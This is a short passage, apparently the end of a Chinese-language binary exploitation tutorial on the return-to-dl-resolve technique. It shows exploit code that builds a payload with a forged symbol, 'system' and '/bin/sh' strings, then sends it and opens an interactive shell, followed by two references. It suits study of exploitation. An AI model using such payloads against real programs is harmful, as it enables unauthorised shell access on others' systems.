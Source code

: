 ```python
payload_7 += "A" * align
payload_7 += fake_sym
payload_7 += "system\x00"
payload_7 += "A" * (80 - len(payload_7))
payload_7 += "/bin/sh\x00"
payload_7 += "A" * (100 - len(payload_7))
io.sendline(payload_7)
io.interactive()
```


## 参考资料
- [How the ELF Ruined Christmas](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)
- [Return-to-dl-resolve](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)

